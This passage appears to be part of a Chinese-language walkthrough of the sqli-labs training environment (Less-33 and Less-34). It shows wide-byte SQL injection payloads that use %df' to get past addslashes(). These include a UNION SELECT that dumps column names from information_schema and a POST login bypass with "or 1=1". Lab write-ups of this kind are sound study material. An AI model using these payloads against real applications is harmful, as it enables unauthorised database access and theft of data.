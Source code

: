 ```sql
//因为对 ' 进行转义后，sql语句中的 ' 也会被转义，因此采用一句话方法直接爆破
http://192.168.65.128/sqli-labs/Less-33/?id=-1%df' 
union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database()and table_name=(select table_name from information_schema.tables where table_schema=database() limit 1,1 )),3--+
```

![](file/image_VYOKDz38W9.png)

### Less-34：POST - Bypass Addslashes()

**注入类型**

宽字节注入

**闭合方式**

id=

```sql
//POST型中对于参数的特殊符号是会先编码再传输的所以不能直接使用 %df 
uname=%df' or 1=1 #
```

![](file/image_rWFlmPNilX.png)

